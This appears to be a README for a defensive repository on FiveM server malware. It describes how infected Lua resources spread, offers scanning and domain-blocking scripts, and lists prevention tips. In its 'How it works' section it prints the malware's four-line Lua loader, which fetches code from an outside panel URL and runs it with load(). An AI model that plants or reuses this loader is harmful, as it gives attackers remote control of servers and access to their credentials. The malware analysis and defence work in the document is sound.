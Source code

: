 - MalScanner.bat aims to check all of your servers resources for Malware.
- NetworkBlock.bat aims to block malware-serving domain names, which are contacted when the infected resource is run.

# About
This is a specific study into a common pay-hack providers methodology.
Credit goes to the specific individuals which devoted a lot of time to discover this growing problem on FiveM, their identities are redacted.

# Analysis
Most FiveM malware is formed around Remote Execution/Administration Tool (RAT). 4 lines of Lua code are written into resources (many of them obfuscate the code) which will download remote code from the external servers. We've found many leaked resources are infected with this type of malware. This repository will talk more about how it works works.

# How it works
It works by individuals releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

The initial infected code boils down to the following:

```Lua
PerformHttpRequest('https://malware-panel.io/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The Unique Code in the URL request is the malware user that now has control of your server. Once this code is run it downloads the remote code and runs it on line 4 as a function.

This is the basis on how most malware works. It proceeds to download several more requests and will continue until it injects more pre-existing resources.

After the code is run, it will upload some javascript and override existing files within the system builders directory. 

`resources\[system]\[builders]` 

The code will start propagating itself within all of your resources and files within the FiveM server installation to make it difficult to remove.

At this stage, its armageddon and all files within the server are compromised meaning files can be downloaded, uploaded, edited and viewed, including but not limited to just the server.cfg, sql credentials or even steal your cfx license keys. They’re also able to run remote code on the server which leads to the last step. The MalScanner batch file in this repository aims to show you exactly where the infected code is.


**Make sure you do not run your FiveM server as ROOT (Linux) or Administrator (Windows)**



# Other things you can do to prevent being attacked by malware

Consider adding the [Warden](https://discord.com/invite/jeFeDRasfs) to your discord server. Warden is a great resource that can help remove cheaters and leakers (people who participate in sharing leaked paid resources) from your community or support hack products like Cipher. 

Make sure to install the latest updates of whatever framework you are using for 

[ESX](https://github.com/esx-framework/esx-legacy) | [ESX Discord](https://discord.esx-framework.org)

[QBCore](https://github.com/qbcore-framework/qb-core) | [QBCore Discord](https://discord.gg/qbcore) 

Consider investing in a good anticheat for your server like [Phoenix Anticheat](https://discord.com/invite/pac) or [FiveEye](https://dsc.gg/FiveEye) or any other anti-cheat that you feel comfortable using.

Buy resources from only reputable places that you feel comfortable purchasing from either Tebex listed stores or from places like [Modit](https://modit.store/), if you're unsure about a store, perhaps ask for guidance on the warden discord. 

Be extremely sketchy on code you get that is encrypted or downloaded from shady sources.

Lastly, the most important thing… **DON'T USE LEAKED RESOURCES!**
